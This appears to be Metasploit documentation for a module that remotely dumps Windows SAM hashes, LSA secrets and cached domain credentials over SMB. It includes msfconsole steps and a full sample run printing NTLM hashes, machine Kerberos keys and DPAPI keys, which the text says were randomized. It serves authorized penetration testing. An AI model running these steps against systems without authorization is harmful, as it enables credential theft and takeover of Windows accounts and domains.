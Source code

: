 ## Vulnerable Application
### Description
The `windows_secrets_dump` auxiliary module dumps SAM hashes and LSA secrets
(including cached creds) from the remote Windows target without executing any
agent locally. First, it reads as much data as possible from the registry and
then save the hives locally on the target (%SYSTEMROOT%\\random.tmp).
Finally, it downloads the temporary hive files and reads the rest of the data
from it. These temporary files are removed when it's done.

This modules takes care of starting or enabling the Remote Registry service if
needed. It will restore the service to its original state when it's done.

This is a port of the great Impacket `secretsdump.py` code written by Alberto
Solino. Note that the `NTDS.dit` technique has not been implement yet. It will
be done in a next iteration.

### Setup
A privileged user is required to run this module, typically a local or domain
Administrator. It has been tested against multiple Windows versions, from
Windows XP/Server 2003 to Windows 10/Server version 2004.

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/windows_secrets_dump`
3. Do: `set RHOSTS <target>` (Windows host)
4. Do: `set SMBUser <username>` (privileged user)
5. Do: `set SMBDomain <domain name>` (only for domain users)
6. Do: `set SMBPass <password>`
7. Do: `run`
8. You should get the dump result displayed
9. Do: `hosts`
10. Verify the host information is there
11. Do: `services`
12. Verify the service information is there
13. Do: `creds`
14. Verify the dumped credentials are there
13. Do: `notes`
14. Verify the notes are there

## Options
Apart from the standard SMB options, no other specific options are needed.

## Scenarios
The data shown below has been altered with random data to avoid exposing
sensitive information.

### Windows 10 Version 1809
```
msf6 > use auxiliary/gather/windows_secrets_dump
msf6 auxiliary(gather/windows_secrets_dump) > options

Module options (auxiliary/gather/windows_secrets_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      445              yes       The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as

msf6 auxiliary(gather/windows_secrets_dump) > set RHOSTS 192.68.43.12
RHOSTS => 192.68.43.12
msf6 auxiliary(gather/windows_secrets_dump) > set SMBUser msfuser
SMBUser => msfuser
msf6 auxiliary(gather/windows_secrets_dump) > set SMBPass mypasswd
SMBPass => mypasswd
msf6 auxiliary(gather/windows_secrets_dump) > run
[*] Running module against 192.68.43.12

[*] 192.68.43.12:445 - Service RemoteRegistry is in stopped state
[*] 192.68.43.12:445 - Starting service...
[*] 192.68.43.12:445 - Retrieving target system bootKey
[+] 192.68.43.12:445 - bootKey: 0x3d354aa5e14d4360a1cc378a9e47338c
[*] 192.68.43.12:445 - Saving remote SAM database
[*] 192.68.43.12:445 - Dumping SAM hashes
[*] 192.68.43.12:445 - Password hints:
No users with password hints on this system
[*] 192.68.43.12:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b7759c83c817e8b0082fb322bce0073b:::
msfuser:1001:aad3b435b51404eeaad3b435b51404ee:035ad5f5a5c251c6fc3ba367bee86858:::
[*] 192.68.43.12:445 - Saving remote SECURITY database
[*] 192.68.43.12:445 - Decrypting LSA Key
[*] 192.68.43.12:445 - Dumping LSA Secrets
$MACHINE.ACC
MYDOMAIN\MYDESKTOP$:aes256-cts-hmac-sha1-96:8f84e173f9a44708b56806e3d5ee9fa4d21c8edd0da7d29d64cf6122de399b07
MYDOMAIN\MYDESKTOP$:aes128-cts-hmac-sha1-96:324719fca31fb90274acbd0bf07abf00
MYDOMAIN\MYDESKTOP$:des-cbc-md5:7561afef18d6e7bb
MYDOMAIN\MYDESKTOP$:aad3b435b51404eeaad3b435b51404ee:0cb18b83ab17e808b6604175784e8ec2:::

DPAPI_SYSTEM
dpapi_machinekey: 0xa197fe18d264c79b0996b3a987fcd6ea3b6191a6
dpapi_userkey: 0xab025408f16dc46e6ba79a559751ea4890daf97b

L$ASP.NETAutoGenKeysV44.0.30319.0
09 5a a2 cf 23 a2 09 ee 4e 55 7b e4 53 98 5c 6c    |.Z..#...NU{.S.\l|
6d cb 41 00 c8 18 4a 58 95 15 c6 56 98 fe da 79    |m.A...JX...V...y|
71 d8 43 50 6f 23 f7 0b b9 97 50 d8 b2 a4 4c c9    |q.CPo#....P...L.|
43 e6 45 23 ec ec 43 72 8c 1f 50 ad 52 a2 64 92    |C.E#..Cr..P.R.d.|
4a 03 8e be b6 fc 85 4b 65 e3 d0 c7 66 34 0b 14    |J......Ke...f4..|
13 ae e7 13 c8 25 6b f1 be 55 a4 fe de fa 4b 1d    |.....%k..U....K.|
0a f5 4d 68 ea 3c 3b 65 d1 69 eb 70 5b 7d 35 1c    |..Mh.<;e.i.p[}5.|
97 d6 e0 d1 15 65 4e 52 dc 1e 11 9e 35 6a 82 59    |.....eNR....5j.Y|
30 98 e1 d2 64 0e 2c 2b 4c dd e6 fd 02 36 21 c1    |0...d.,+L....6!.|
54 e0 18 7c e0 56 ee 25 4b ab b9 75 70 d2 cf c9    |T..|.V.%K..up...|
38 8e 06 20 31 75 ca 52 d3 9f 6d 99 80 9c f1 ab    |8.. 1u.R..m.....|
56 51 e3 de 62 be d4 bb ce f7 6b 9c f5 88 74 a7    |VQ..b.....k...t.|
54 29 51 47 3b e2 9b 7a                            |T)QG;..z|
Hex string: 095aa2cf23a209ee4e557be453985c6c6dcb4100c8184a589515c65698feda7971d843506f23f70bb99750d8b2a44cc943e64523ecec43728c1f50ad52a264924a038ebeb6fc854b65e3d0c766340b1413aee713c8256bf1be55a4fedefa4b1d0af54d68ea3c3b65d169eb705b7d351c97d6e0d115654e52dc1e119e356a82593098e1d2640e2c2b4cdde6fd023621c154e0187ce056ee254babb97570d2cfc9388e06203175ca52d39f6d99809cf1ab5651e3de62bed4bbcef76b9cf58874a7542951473be29b7a

NL$KM
40 76 27 cd 14 f9 b3 6e a5 19 fd 03 bd c7 d9 99    |@v'....n........|
f2 b0 91 78 44 80 e7 b3 7d b6 4f 26 0a 61 8c 6f    |...xD...}.O&.a.o|
c5 20 e2 65 de ef 98 13 92 e8 db c9 51 3b 5a c2    |. .e........Q;Z.|
fd 19 66 e6 e9 cd 4f 11 ec 08 82 1b 16 be 41 38    |..f...O.......A8|
Hex string: 407627cd14f9b36ea519fd03bdc7d999f2b091784480e7b37db64f260a618c6fc520e265deef981392e8dbc9513b5ac2fd1966e6e9cd4f11ec08821b16be4138

[*] 192.68.43.12:445 - Decrypting NL$KM
[*] 192.68.43.12:445 - Dumping cached hashes
[*] 192.68.43.12:445 - Hashes are in 'mscash2' format
MYDOMAIN/msfuser:$DCC2$10240#msfuser#86d8081dd11a232080037a83f2165732:MYDOMAIN.INTERNAL:MYDOMAIN

[*] 192.68.43.12:445 - Cleaning up...
[*] 192.68.43.12:445 - Stopping service RemoteRegistry...
[*] Auxiliary module execution completed
msf6 auxiliary(gather/windows_secrets_dump) > hosts

Hosts
=====

address        mac  name             os_name  os_flavor  os_sp  purpose  info  comments
-------        ---  ----             -------  ---------  -----  -------  ----  --------
192.68.43.12       MYDESKTOP  Unknown                    device

msf6 auxiliary(gather/windows_secrets_dump) > services
Services
========

host           port  proto  name  state  info
----           ----  -----  ----  -----  ----
192.68.43.12  445   tcp    smb   open   Module: auxiliary/gather/windows_secrets_dump, last negotiated version: SMBv3 (dialect = 0x0311)

msf6 auxiliary(gather/windows_secrets_dump) > creds
Credentials
===========

host          origin        service        public               private                                                                                          realm     private_type        JtR Format
----          ------        -------        ------               -------                                                                                          -----     ------------        ----------
192.68.43.12  192.68.43.12  445/tcp (smb)  MYDOMAIN\msfuser     MYDOMAIN/msfuser:$DCC2$10240#msfuser#86d8081dd11a232080037a83f2165732:MYDOMAIN.INTE (TRUNCATED)  MYDOMAIN  Nonreplayable hash  mscash2
192.68.43.12  192.68.43.12  445/tcp (smb)  Guest                aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0                                          NTLM hash           nt,lm
192.68.43.12  192.68.43.12  445/tcp (smb)  Administrator        aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0                                          NTLM hash           nt,lm
192.68.43.12  192.68.43.12  445/tcp (smb)  WDAGUtilityAccount   aad3b435b51404eeaad3b435b51404ee:b7759c83c817e8b0082fb322bce0073b                                          NTLM hash           nt,lm
192.68.43.12  192.68.43.12  445/tcp (smb)  msfuser              aad3b435b51404eeaad3b435b51404ee:035ad5f5a5c251c6fc3ba367bee86858                                          NTLM hash           nt,lm
192.68.43.12  192.68.43.12  445/tcp (smb)  MYDOMAIN\MYDESKTOP$  aad3b435b51404eeaad3b435b51404ee:0cb18b83ab17e808b6604175784e8ec2                                MYDOMAIN  NTLM hash           nt,lm
192.68.43.12  192.68.43.12  445/tcp (smb)  MYDOMAIN\MYDESKTOP$  MYDOMAIN\MYDESKTOP$:aes256-cts-hmac-sha1-96:8f84e173f9a44708b56806e3d5ee9fa4d21c8ed (TRUNCATED)  MYDOMAIN  Password
192.68.43.12  192.68.43.12  445/tcp (smb)  MYDOMAIN\MYDESKTOP$  MYDOMAIN\MYDESKTOP$:aes128-cts-hmac-sha1-96:324719fca31fb90274acbd0bf07abf00                     MYDOMAIN  Password
192.68.43.12  192.68.43.12  445/tcp (smb)  MYDOMAIN\MYDESKTOP$  MYDOMAIN\MYDESKTOP$:des-cbc-md5:7561afef18d6e7bb                                                 MYDOMAIN  Password
192.68.43.12  192.68.43.12  445/tcp (smb)  DefaultAccount       aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0                                          NTLM hash           nt,lm

msf6 auxiliary(gather/windows_secrets_dump) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type               Data
 ----                     ----          -------  ----  --------  ----               ----
 2020-08-13 12:20:16 UTC  192.68.43.12  smb      445   tcp       host.boot_key      "3d354aa5e14d4360a1cc378a9e47338c"
 2020-08-13 12:20:20 UTC  192.68.43.12  smb      445   tcp       host.lsa_key       "0483f343addb39221136da0a0f52397aef02e6ee5d8bd05d49390ab97e05dc45"
 2020-08-13 12:20:20 UTC  192.68.43.12  smb      445   tcp       dpapi.machine_key  "a197fe18d264c79b0996b3a987fcd6ea3b6191a6"
 2020-08-13 12:20:20 UTC  192.68.43.12  smb      445   tcp       dpapi.user_key     "ab025408f16dc46e6ba79a559751ea4890daf97b"
 2020-08-13 12:20:20 UTC  192.68.43.12  smb      445   tcp       host.nlkm_key      "40000000000000000000000000000000407627cd14f9b36ea519fd03bdc7d999f2b091784480e7b37db64f260a618c6fc520e265deef981392e8dbc9513b5ac2fd1966e6e9cd4f11ec08821b16be4138e0dd79c41522331dcc5005d731c1738f"
 2020-08-13 12:20:21 UTC  192.68.43.12  smb      445   tcp       user.cache_info    "Username: msfuser; Iteration count: 10 -> real 10240; Last login: 2020-08-01 20:00:02 +0100; DNS Domain Name: MYDOMAIN.INTERNAL; UPN: msfuser@mydomain.internal; Effective Name: msfuser; Full Name: msfuser; Logon Script: ; Profile Path: ; Home Directory: ; Home Directory Drive: ; User ID: 1004; Primary Group ID: 513; Additional groups: 513; Logon domain name: MYDOMAIN"
```
